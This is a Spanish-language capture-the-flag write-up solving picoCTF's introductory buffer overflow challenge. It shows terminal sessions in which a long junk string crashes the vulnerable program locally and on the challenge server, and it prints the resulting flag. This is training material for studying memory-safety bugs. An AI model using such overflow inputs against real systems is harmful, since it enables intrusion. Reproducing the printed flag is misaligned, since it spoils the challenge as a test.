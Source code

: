 ## Objetivo

Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c).

Additional details will be available after launching your challenge instance.

## Solución  

descargamos los archivos que nos viene en el reto

```java
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ ls    
program-redacted.c  vuln  vuln.c
                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ chmod +x vuln 
                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ file vuln 
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ ./vuln 
Please create 'flag.txt' in this directory with your own debugging flag.
                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ echo 'flag {dummieflag}' > flag.txt
                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ ./vuln 
Input: fghjkl
The program will exit now
                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ man gets          
                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ man strcpy
                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ ./vuln 
Input: sdfgthyjuikhgdfghjdfghjcfvgbhnrftghjkddddddddddddddddddddddddddddddddddddddddddddddddjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjj flag{dummieflag}
flag {dummieflag}

                                               
┌──(kali㉿kali)-[~/Downloads/buffer]
└─$ nc saturn.picoctf.net 53603
Input: sdfgthyjuikhgdfghjdfghjcfvgbhnrftghjkddddddddddddddddddddddddddddddddddddddddddddddddjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjsdfgthyjuikhgdfghjdfghjcfvgbhnrftghjkddddddddddddddddddddddddddddddddddddddddddddddddjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjsdfgthyjuikhgdfghjdfghjcfvgbhnrftghjkddddddddddddddddddddddddddddddddddddddddddddddddjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjj
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}

```

**picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}**
## Notas Adicionales 

### Referencias